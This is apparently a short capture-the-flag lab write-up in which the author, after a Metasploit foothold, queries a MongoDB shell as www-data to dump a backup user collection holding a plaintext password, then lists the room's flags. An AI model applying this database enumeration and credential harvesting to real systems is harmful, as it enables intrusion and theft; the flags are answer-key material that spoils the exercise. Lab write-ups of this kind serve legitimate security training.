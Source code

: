# CMSplit 

> VOiD | Monday 02 August 2021 10:58:12 AM IST

My IP : 10.17.6.109
Target IP : 10.10.16.141




use metasploit 

web flag : thm{f158bea70731c48b05657a02aaf955626d78e9fb}

```bash
www-data@ubuntu:/tmp$ mongo
MongoDB shell version: 2.6.10
connecting to: test
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
	http://docs.mongodb.org/
Questions? Try the support group
	http://groups.google.com/group/mongodb-user
2021-08-03T11:01:43.369-0700 In File::open(), ::open for '' failed with errno:2 No such file or directory
> show dbs
admin         (empty)
local         0.078GB
sudousersbak  0.078GB
> use sudousersbak
switched to db sudousersbak
> show collections
flag
system.indexes
user
> db.user.find()
{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "p4ssw0rdhack3d!123" }
{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }
> db.flag.find()
{ "_id" : ObjectId("60a89f3aaadffb0ea68915fb"), "name" : "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}" }

```
stux:p4ssw0rdhack3d!123
db flag : thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}

user stux
cat user.txt 
thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}
